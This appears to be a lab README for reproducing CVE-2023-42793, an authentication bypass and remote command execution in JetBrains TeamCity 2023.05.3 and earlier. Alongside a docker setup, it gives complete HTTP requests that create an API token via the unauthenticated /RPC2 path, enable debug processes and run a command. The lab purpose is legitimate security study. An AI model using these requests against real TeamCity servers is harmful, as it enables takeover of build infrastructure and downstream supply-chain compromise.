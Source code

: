 # Jetbrains TeamCity Authentication Bypass and Remote Command Execution (CVE-2023-42793)

[中文版本(Chinese version)](README.zh-cn.md)

TeamCity is a general-purpose CI/CD software platform that allows for flexible workflows, collaboration and development practices.

TeamCity server version 2023.05.3 and below is prone to an authentication bypass, which allows an unauthenticated attacker to gain remote code execution (RCE) on the server.

References:

- <https://www.sonarsource.com/blog/teamcity-vulnerability/>
- <https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/>

## Vulnerable Environment

Execute following command to start a TeamCity server 2023.05.3:

```
docker compose up -d
```

After the server is started, you should do the initialization steps on `http://localhost:8111`:

![](1.png)

## Exploit

The key point of this issue is that, all the requests end with `/RPC2` wouldn't be authenticated.

To exploit the issue, send the following request to add a rest API token that name is `RPC2`:

```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

Success to generate a rest API token. Then, enable the debug mode with the API token:

```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0


```

![](3.png)

You are able to execute arbitrary commands after the debug mode is enabled:

```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0


```

![](4.png)

It's better to delete the API token that we added before:

```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: localhost:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
